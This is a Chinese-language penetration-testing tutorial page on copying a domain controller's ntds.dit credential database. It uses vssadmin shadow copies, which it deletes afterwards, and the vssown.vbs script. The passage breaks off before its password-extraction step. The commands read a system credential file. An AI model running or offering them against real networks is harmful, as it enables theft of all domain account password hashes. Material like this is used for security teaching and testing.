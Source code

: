 ![](https://cdn.nlark.com/yuque/0/2025/png/44191974/1751087449474-a4cb3d1f-a48a-4ed4-91fe-d6fa070553a6.png)

# 提取域控的ntds.dit并获取密码
ntds.dit文件一般位于：`<font style="color:rgb(51, 51, 51);">C:\Windows\ntds\ntds.dit</font>`

## 获取ntds.dit文件
### 利用vssadmin工具（域管理员权限）
vssadmin是Windows上的一个卷影拷贝服务的命令行管理工具，可用于创建和删除卷影拷贝、列出卷影拷贝的信息，显示已安装的所有卷影拷贝写入程序和提供程序，以及改变卷影拷贝的存储空间的大小等。

<font style="color:rgb(51, 51, 51);">其适用于： Windows 10，Windows 8.1，Windows Server 2016，Windows Server 2012 R2，Windows Server 2012，Windows Server 2008 R2，Windows Server 2008</font>

<font style="color:rgb(51, 51, 51);">获取ntds.dit文件流程如下</font>

+ <font style="color:rgb(51, 51, 51);">创建C盘的卷影拷贝</font>

```bash
vssadmin create shadow /for=C:
```

+ <font style="color:rgb(51, 51, 51);">将卷影中的ntds.dit文件拷贝出来</font>

```bash
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit C:\ntds.dit
```

+ <font style="color:rgb(51, 51, 51);">删除卷影</font>

```bash
vssadmin delete shadow /for=C: /quiet
```

### 利用vssown.vbs脚本（域管理员权限）
下载：[https://github.com/borigue/ptscripts/blob/master/windows/vssown.vbs](https://github.com/borigue/ptscripts/blob/master/windows/vssown.vbs)

该脚本本质上是通过wmi对ShadowCopy进行操作，其功能与vssadmin类似，可用于创建和删除卷影拷贝，以及启动和停止卷影拷贝服务。

操作流程如下：

+ 启动脚本

```bash
cscript vssown.vbs /start
```

+ 拷贝卷影

```bash
cscript vssown.vbs /create c
```

+ 列出已经拷贝的卷影

```bash
cscript vssown.vbs /list
```
